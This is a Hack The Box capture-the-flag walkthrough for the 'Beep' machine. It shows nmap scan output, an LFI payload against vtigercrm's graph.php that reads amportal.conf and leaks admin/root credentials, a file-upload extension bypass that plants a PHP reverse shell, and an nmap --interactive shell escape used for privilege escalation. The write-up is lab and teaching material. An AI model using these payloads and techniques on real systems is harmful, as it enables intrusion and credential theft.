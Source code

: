 ```yaml
---
layout: PostSimple
date: 2019-12-01
title:     "Hack The Box - Beep"
tags: ['linux','easy','setuid','cve','lfi','file-upload-vuln']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/5>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

><https://gtfobins.github.io/gtfobins/nmap/>

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/18.png)

I'm Root now!


